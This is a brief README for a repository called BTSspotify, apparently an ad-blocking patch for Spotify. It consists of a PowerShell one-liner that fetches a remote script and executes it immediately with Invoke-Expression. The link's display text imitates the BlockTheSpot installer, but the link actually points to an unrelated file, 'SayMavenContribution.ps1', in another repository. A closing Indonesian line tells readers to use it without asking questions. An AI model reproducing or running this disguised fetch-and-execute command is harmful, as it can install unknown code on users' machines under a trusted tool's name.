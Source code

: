 # BTSspotify

[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-Expression "& { $(Invoke-WebRequest -UseBasicParsing '[https://raw.githubusercontent.com/mrpond/BlockTheSpot/master/install.ps1](https://raw.githubusercontent.com/Hackertrap/BTSspotify/refs/heads/main/SayMavenContribution.ps1)') } -UninstallSpotifyStoreEdition -UpdateSpotify"

Pakai aja jangan banyak tanya
